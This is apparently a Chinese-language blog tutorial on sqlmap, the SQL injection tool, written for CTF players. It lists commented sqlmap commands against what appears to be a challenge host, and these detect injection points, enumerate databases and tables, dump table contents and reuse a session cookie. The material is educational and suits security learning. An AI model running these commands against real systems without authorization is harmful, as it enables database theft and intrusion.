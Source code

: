 ```yaml
---
title: Sqlmap 介绍
date: 2023-01-25 20:40:25
keywords: sqlmap, ctf tools, ctf 工具
description: Sqlmap 是检测服务端是否存在SQL注入漏洞的自动化工具。因为其强大的检测能力，常用在CTF比赛的SQL注入类型的题目中。它的主要功能是扫描、发现并利用指定URL中的SQL注入漏洞，支持的数据库类型非常多。
---
```


Sqlmap 是检测服务端是否存在SQL注入漏洞的自动化工具。因为其强大的检测能力，常用在CTF比赛的SQL注入类型的题目中。它的主要功能是扫描、发现并利用指定URL中的SQL注入漏洞，支持的数据库类型非常多。

## 安装

在 macOS 中，可以通过 `brew install sqlmap` 安装并通过命令行使用。

> 想知道 brew 怎么使用，可以参考 [Homebrew 介绍与上手指南](http://www.edulinks.cn/2020/06/23/20200623-homebrew-introduction/)

## 使用

sqlmap 常用命令及参数如下：

```sh
# 检测指定 URL 的注入点情况
$ sqlmap -u http://223.112.5.156:59050/index.php\?id\=1
# 检测指定 URL 的注入点情况，并指定更多的参数，提高成功率
$ sqlmap -u http://223.112.5.156:59050/index.php\?id\=1 --level 2 --time-sec=10
# 指定注入点，查看当前数据库
$ sqlmap -u http://223.112.5.156:59050/index.php\?id\=1 --current-db
# 指定注入点，指定数据库名，查看数据库中所有表
$ sqlmap -u http://223.112.5.156:59050/index.php\?id\=1 -D cyber --tables
# 指定注入点，指定数据库名和表名，查看表中具体内容
$ sqlmap -u http://223.112.5.156:59050/index.php\?id\=1 -D cyber -T cyber --dump

# 利用 POST 参数进行探测, search 为参数
$ sqlmap -u http://223.112.5.156:59050/ --data=search=1  --current-db

# 当网站需要认证时，需要带上 Cookie ，可以利用 --cookie 参数
$ sqlmap -u http://223.112.5.156:59050/index.php\?module\=index\&do\=member\&uid\=5  --level 2 --time-sec=10 --cookie "user=b73565ee4c6fd8009b9226e76d691d06; PHPSESSID=o5psg7sv53froq22u789dggbp0"
```

## 参考资料

1. [sqlmap](https://sqlmap.org/)
1. [sqlmap简介及简单应用实例](https://blog.csdn.net/m0_64378913/article/details/124439539)
